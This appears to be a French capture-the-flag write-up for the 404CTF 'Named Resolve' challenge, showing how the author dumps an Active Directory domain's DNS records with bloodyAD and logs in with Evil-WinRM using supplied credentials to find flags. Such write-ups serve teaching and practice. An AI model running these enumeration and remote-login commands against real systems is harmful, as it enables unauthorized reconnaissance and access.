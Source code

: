 Le flag est à l'intérieur.

```
=== PROCÉDURES POUR LES STAGIAIRES ===

1. Lors de votre première connexion, changez votre mot de passe par défaut
2. Remplissez la fiche d'accueil (voir modèle sur le partage)
3. Consultez régulièrement votre messagerie professionnelle

Note confidentielle pour les administrateurs:
404CTF{P4ssW0rd_Spr4y_1s_T00_E4sy_F0r_St4g14ir3s}
```

# Named Resolve

> Dans la station, chaque nom a sa place — mais certains ne devraient jamais être résolus. Un secteur du réseau reste ignoré par la majorité des opérateurs. Pourtant, ceux qui savent où chercher y trouvent souvent bien plus qu’ils ne l’imaginaient.

``51.89.230.95``

Identifiants de connexion:

``Nom d'utilisateur: noir13239_404Player``

``Mot de passe: <password>``

Il se passe quelque chose en lien avec le nom de domaine.

ctfcorp.local

On peut énumérer les enregistrements DNS de différentes manières.
Je vais utiliser bloodyAD.

```
bloodyAD --host "51.89.230.95" -d "ctfcorp.local" -u 'noir13239_404Player' -p '<password>' get dnsDump
```
On trouve alors un sous-domaine qui donne directement le flag.
```
recordName: flag.challenge.ctfcorp.local
TXT: 404CTF{DNS_Z0n3_W4lk1ng_Byp4ss3s_Tr4nsf3r_R3str1ct10ns!}
```

Il était aussi possible de se connecter avec Evil-WinRM et de trouver une commande dans ``C:\CTF\DNS`` pour énumérer les enregistrements.

```
evil-winrm -i 51.89.230.95 -u 'noir13239_404Player' -p '<password>'

*Evil-WinRM* PS C:\CTF\DNS> ls


    Directory: C:\CTF\DNS


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/1/2025   2:08 PM         436736 dnscmd-public.exe
-a----         5/9/2025   1:06 PM            144 enumerer-records.cmd
-a----         5/9/2025   1:06 PM             87 enumerer-zones.cmd
-a----         5/9/2025   1:06 PM             79 rpc-dns.cmd


*Evil-WinRM* PS C:\CTF\DNS> type enumerer-records.cmd
@echo off
echo ?num?ration des enregistrements de la zone challenge.ctfcorp.local...
dnscmd localhost /enumrecords challenge.ctfcorp.local .

```